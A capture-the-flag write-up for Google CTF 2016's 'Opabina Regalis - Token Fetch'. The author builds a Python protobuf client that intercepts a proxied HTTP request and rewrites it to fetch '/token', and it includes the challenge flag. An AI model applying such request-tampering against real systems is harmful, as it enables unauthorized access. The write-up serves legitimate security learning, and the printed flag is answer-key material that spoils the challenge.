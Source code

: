 # Google CTF 2016 : Opabina Regalis - Token Fetch

**Category:** Web
**Points:** 50
**Solves:** 79
**Description:**


>
>There are a variety of client side machines that have access to certain websites we'd like to access. We have a system in place, called "Opabina Regalis" where we can intercept and modify HTTP requests on the fly. Can you implement some attacks to gain access to those websites?
>
>Opabina Regalis makes use of [Protocol Buffers](https://developers.google.com/protocol-buffers/) to send a short snippet of the HTTP request for modification.
>
>Here's the protocol buffer definition used:
>
>
>     package main;
>
>     message Exchange {
>
>        enum VerbType {
>                GET = 0;
>                POST = 1;
>        }
>
>        message Header {
>                required string key = 1;
>                required string value = 2;
>        }
>
>        message Request {
>                required VerbType ver = 1; // GET
>                required string uri = 2; // /blah
>                repeated Header headers = 3; // Accept-Encoding: blah
>                optional bytes body = 4;
>        }
>
>        message Reply {
>                required int32 status = 1; // 200 or 302
>                repeated Header headers = 2;
>                optional bytes body = 3;
>        }
>
>        oneof type {
>                Request request = 1;
>                Reply reply = 2;
>        }
>     }
>

>The network protocol uses a 32-bit little endian integer representing the length of the marshalled protocol buffer, followed by the marshalled protocol buffer.
>
>Listening on port 1876 on ssl-added-and-removed-here.ctfcompetition.com
>


## Write-up

In order to solve this problem, I had to learn a little bit about Protocol buffer.  I started by reading the documentation that was linked in the challenge description.  It looks like Google supports a few different languages, so I decided to go with Python.  But first I had to install the protocol buffer compiler (protoc).


Download the protocl buffer project
```
$ git clone https://github.com/google/protobuf.git
```


Compile and install (from [Google's Git Documentaion](https://github.com/google/protobuf/tree/master/src))
```
$ cd ./protobuf/
$ ./autogen.sh
$ ./configure
$ make
$ make check
$ sudo make install
$ sudo ldconfig # refresh shared library cache.
```

Google has provided the contents of our message file in the challenge description, simply save it as main.proto.

Now that the protocol buffer compiler has been installed and we have our main.proto file created, it is time to run the compiler.
```
$ protoc -I=./ --python_out=./ main.proto
```

Wow, I am finally ready to start writing code.  I can create an empty Exchange message protocol buffer with the following snippet:
```python
import main_pb2
msg = main_pb2.Exchange()
```

Once I verified that I could import main_pb2, I setup the TCP/SSL socket as such:
```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))
ws = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_SSLv23)
```

This is the code I wrote for reading from the socket, careful to obey the requirement for 32bit little-endian integers.
```python
def rx_msg(sock):
  data = sock.recv(4)
  
  #Unpack the message length
  msg_len = struct.unpack('<I', data)[0]
  data = sock.recv(msg_len)
  
  #Read the protocol buffer message
  msg = main_pb2.Exchange()
  msg.ParseFromString(data)
```

And the code for writing to the socket.
```python
def tx_msg(sock, msg):
  data = msg.SerializeToString()
  p = struct.pack('<I', len(data)) + data
  sock.send(p)
```

And add some simple code to print the request so that I can easily see what is happening.
```python
def print_req(req):
  print('VerbType: ' + repr(req.ver))
  print('URI: ' + repr(req.uri))
  print('Headers:')
  for i in req.headers:
  	print(repr(i))
  print('Body: ' + repr(req.body))
```

I should be all set, let's connect to the socket and see if I get a request.
```
VerbType: 0
URI: u'/not-token'
Headers:
key: "User-Agent"
value: "opabina-regalis.go"
```

Hmm...  Looks like someone is trying to connect to '/not-token'.  What if I create a new request for '/token'
```python
new_dat = main_pb2.Exchange()
new_dat.request.ver = main_pb2.Exchange.GET
new_dat.request.uri = u'/token'
new_dat.request.body = ''
tx_msg(ws, new_dat)
```

Now let's see what the whole script output looks like.
```
VerbType: 0
URI: u'/not-token'
Headers:
key: "User-Agent"
value: "opabina-regalis.go"

Body: ''
Status: 200
Headers:
key: "Server"
value: "opabina-regalis.go"

Body: 'CTF{WhyDidTheTomatoBlush...ItSawTheSaladDressing}'
```

[Click here for entire Python implementation](https://github.com/b0tchsec/CTF-Fanny-Pack/blob/master/solutions/google_2016/OpabinaRegalis_TokenFetch/client.py)
